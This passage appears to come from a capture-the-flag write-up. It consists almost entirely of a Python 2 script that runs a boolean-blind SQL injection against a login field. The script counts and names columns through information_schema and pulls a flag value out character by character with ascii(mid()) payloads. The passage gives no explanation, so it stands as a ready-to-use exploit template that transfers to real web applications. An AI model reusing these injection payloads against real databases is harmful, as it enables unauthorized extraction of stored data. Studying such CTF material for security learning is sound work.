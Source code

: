 ```

	for i in xrange(50):
		payload = "ddog1223' or ((SELECT COUNT(*) from information_schema.columns WHERE table_name = 'fff1ag')="+str(i)+")#"

		if get_data(payload):
			print "[*] column_number: "+str(i)
			column_number = i
			break

	# tables_number=3

	for j in range(0,column_number):
		for i in xrange(50):
			payload = "ddog1223' or ((SELECT length(column_name) from information_schema.columns WHERE table_name = 'fff1ag' limit 1 offset "+str(j)+")="+str(i)+")#"

			if get_data(payload):
				print "[*] column_length: "+str(i)
				column_length = i
				break

		column = ""
		
		for i in range(1,column_length+1):
			for k in range(30,128):
				payload = "ddog1223' or (SELECT ascii(mid(((SELECT column_name from information_schema.columns WHERE table_name = 'fff1ag' limit 1 offset "+str(j)+"))from("+str(i)+")))="+str(k+1)+")#"

				if get_data(payload):
					column += chr(k+1)
					print "[*] column: "+column
					break

		print "[*] column: " + column


def get_flag(url):

	for i in xrange(50):
			payload = "ddog12s3' or ((SELECT length(thisi5f14g) from fff1ag limit 1)="+str(i)+")#"

			if get_data(payload):
				print "[*] content_length: "+str(i)
				content_length = i
				break

	content = ""
	
	for i in range(1,content_length+1):
		for k in range(30,128):
			payload = "ddog123s' or (SELECT ascii(mid(((SELECT thisi5f14g from fff1ag limit 1))from("+str(i)+")))="+str(k+1)+")#"

			# print payload
			if get_data(payload):
				content += chr(k+1)
				print "[*] content: "+content
				break

	print "[*] content: " + content

```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png